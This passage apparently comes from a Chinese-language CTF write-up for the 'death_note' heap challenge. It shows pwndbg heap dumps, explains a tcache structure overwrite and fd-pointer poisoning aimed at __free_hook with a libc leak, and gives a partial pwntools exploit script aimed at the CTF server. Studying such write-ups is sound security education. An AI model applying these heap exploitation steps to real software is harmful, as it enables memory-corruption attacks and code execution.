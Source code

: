 也就是当我们申请了堆块之后其堆布局如下

```
pwndbg&gt; x/20gx 0x0000555555757000
0x555555757000: 0x0000000000000000      0x0000000000000251 // tcache_pthread_struct
0x555555757010: 0x0000000000000000      0x0000000000000000
0x555555757020: 0x0000000000000000      0x0000000000000000
0x555555757030: 0x0000000000000000      0x0000000000000000
0x555555757040: 0x0000000000000000      0x0000000000000000
0x555555757050: 0x0000000000000000      0x0000000000000000
0x555555757060: 0x0000000000000000      0x0000000000000000
0x555555757070: 0x0000000000000000      0x0000000000000000
0x555555757080: 0x0000000000000000      0x0000000000000000
0x555555757090: 0x0000000000000000      0x0000000000000000
pwndbg&gt; x/20gx 0x0000555555757260
0x555555757260: 0x00005555557572c0      0x0000555555757350// 保存我们申请堆块指针的数组
0x555555757270: 0x00005555557573e0      0x0000555555757470
0x555555757280: 0x0000555555757500      0x0000555555757590
0x555555757290: 0x0000555555757620      0x00005555557576b0
0x5555557572a0: 0x0000555555757740      0x0000000000000000
0x5555557572b0: 0x0000000000000000      0x0000000000000091
```

也就是说我们通过越界可以覆写`tcache_pthread_struct`结构体中的内容，因此这里我们首先释放一个堆块，然后利用越界写覆写其`fd`指针，达到一个`UAF`的效果。覆写`fd`指向`free_hook`，那么申请之后就可以直接覆写`free_hook`了。

覆写过程中还存在一个问题就是`size_list`中对应部分是否存在值，如果是`0`则是无法写入的，由于`size_list`这个数组中内容是保存在`bss`段中的，因此其低地址处一般都会有数值存在，因此这里选择一个合适的堆块大小就行了。

对于`libc`地址的泄漏，由于这里含有`show`函数，也就是我们可以利用堆块释放再申请之后中堆块残留的信息泄漏得到`libc`基地址。

```
# encoding=utf-8
from pwn import *

file_path = "./death_note"
context.terminal = ['tmux', 'splitw', '-h']
elf = ELF(file_path)
p = remote('bin.q21.ctfsecurinets.com', 1337)
libc = ELF('./libc.so.6')


def add(size):
    p.sendlineafter("5- Exit\n", "1")
    p.sendlineafter("note size:", str(size))


def edit(index, content):
    p.sendlineafter("5- Exit\n", "2")
    p.sendlineafter("note index: ", str(index))
    p.sendafter("Name: ", content)


def delete(index):
    p.sendlineafter("5- Exit\n", "3")
    p.sendlineafter("note index: ", str(index))


def show(index):
    p.sendlineafter("5- Exit\n", "4")
    p.sendlineafter("note index: ", str(index))


for i in range(9):
    add(0x88)
delete(0)
```